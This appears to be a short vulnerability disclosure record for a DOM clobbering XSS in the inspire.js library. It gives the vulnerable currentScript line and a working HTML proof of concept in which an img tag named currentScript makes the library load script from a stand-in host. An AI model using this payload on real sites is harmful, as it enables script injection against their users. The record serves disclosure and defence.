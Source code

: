 ## inspire.js

### Meta

+ Library: inspire.js
+ Stars: 1.7K
+ Version: v1.10
+ Fingerprint: `window.hasOwnProperty('inspireLoaded')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://inspirejs.org/inspire.js`

### Vulnerable Code Snippet

```javascript
let url = new URL("./inspire.mjs", document.currentScript ? document.currentScript.src : "https://inspire.js.org/");
```

## PoC

```html
<!--Library-->
<script src="https://inspirejs.org/inspire.js"></script>
<!--Library-->

<!--Payload-->
<img name=currentScript src="http://localhost:9999">
<!--Payload-->
```
